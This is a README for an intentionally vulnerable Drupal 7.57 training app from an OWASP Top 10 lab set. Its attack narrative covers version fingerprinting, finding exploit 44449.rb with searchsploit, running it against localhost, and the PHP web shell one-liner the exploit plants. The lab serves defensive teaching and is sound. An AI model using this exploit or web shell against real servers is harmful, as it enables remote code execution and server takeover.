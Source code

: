 # Admin PHP

<p align="center">
    <img src="images/attack1.png"/>
</p>

Admin PHP is a simple web application built with Drupal that contains an example of a component with a known vulnerability and its main goal is to demonstrate how an attacker could exploit it.

## Index

- [Definition](#what-does-it-mean-to-use-a-component-with-known-vulnerabilities)
- [Setup](#setup)
- [Attack narrative](#attack-narrative)
- [Objectives](#secure-this-app)
- [Solutions](#pr-solutions)
- [Contributing](#contributing)

## What does it mean to use a component with known vulnerabilities?

Imagine that components, such as libraries, frameworks, and other software modules, run with the same privileges as the application. If a vulnerable component is exploited, such an attack can facilitate serious data loss or server takeover. Applications and APIs using components with known vulnerabilities may undermine application defenses and enable various attacks and impacts.

The main goal of this app is to discuss how **Using Components With Known Vulnerabilities** can be exploited and to encourage developers to send b3d3cLabs Pull Requests on how they would mitigate these flaws.

## Setup

To start this intentionally **insecure application**, you will need [Docker][Docker Install] and [Docker Compose][Docker Compose Install]. After forking [b3d3cLabs](https://github.com/b3d3c/b3d3cLabs), you must type the following commands to start:

```sh
cd b3d3cLabs/owasp-top10-2017/a9/Admin PHP
```

```sh
make install
```

Then simply visit [localhost][App] ! 😆

## Get to know the app 🏗

To properly understand how this application works, you could:

- Visit its homepage!

## Attack narrative

Now that you know the purpose of this app, what could go wrong? The following section describes how an attacker could identify and eventually find sensitive information about the app or its users. We encourage you to follow these steps and try to reproduce them on your own to better understand the attack vector! 😜

### 👀

#### Use of a vulnerable Drupal version allows for remote code execution


It's possible to reach the server's web application from the standard HTTP port 80, as shown by the image below:

<img src="images/attack1.png" align="center"/>

Afterward, by having a look at the `/robots.txt` file, it's possible to find the `CHANGELOG.txt` file in the `Disallow` field, as depicted by the image below:

<img src="images/attack2.png" align="center"/>

When accessed, an indication of the version of the Content Management System (Drupal) can be found, as shown below:

<img src="images/attack3.png" align="center"/>

Having the CMS version, it's possible to check on [exploit-db][3] if there are any exploits associated with that version, in this case, Drupal 7.57. The results of the search are depicted in the image below:

<img src="images/attack4.png" align="center"/>

By using [searchsploit](https://www.exploit-db.com/searchsploit), an attacker could also find this same result via a terminal. To install it, simply type the following in your OSX terminal (keep in mind it might trigger your anti-virus software) :

```sh
⚠️ 'The next command will install several exploit codes in your system and many of them may trigger antiviruses alerts'

brew install exploitdb
```

Then simply search for the version of the CMS found:

```sh
searchsploit drupal 7.
```

If you are using OSX, this command will help you to copy the exploit to your `/tmp` folder:

```
cp /usr/local/opt/exploitdb/share/exploit-database/exploits/php/webapps/44449.rb /tmp
```

## 🔥

Running the malicious Ruby code, we have evidence that remote code execution is possible on the web server, using the following commands as shown below:

```sh
ruby /tmp/44449.rb http://localhost
```

<img src="images/attack5.png" align="center"/>

**NOTE**: You need to have Ruby installed on your system to run the exploit, for information on how to install it, click [here][1]!

**NOTE 2**: If you came across an execution error when trying to run the exploit, please have a look at this [Issue][4] for information on how to proceed.

The exploit works by adding into the server a malicious `s.php`, which allows remote code execution on it via following malicious content: 

```php
<?php if( isset( $_REQUEST['c'] ) ) { system( $_REQUEST['c'] . ' 2>&1' ); }
```

Using the exploit's "fake shell", we can type a command, such as `whoami`, to verify that we indeed have an RCE on the server, as shown by the image:

<img src="images/attack6.png" align="center"/>

## Secure this app

How would you mitigate this vulnerability? After your changes, an attacker should not be able to:

* Execute code remotely through the exploit above

## References

* Docker Install:  https://docs.docker.com/install/
* Docker Compose Install: https://docs.docker.com/compose/install/
* App: http://localhost:80
* 1: https://www.ruby-lang.org/en/documentation/installation/
* 3: https://www.exploit-db.com/
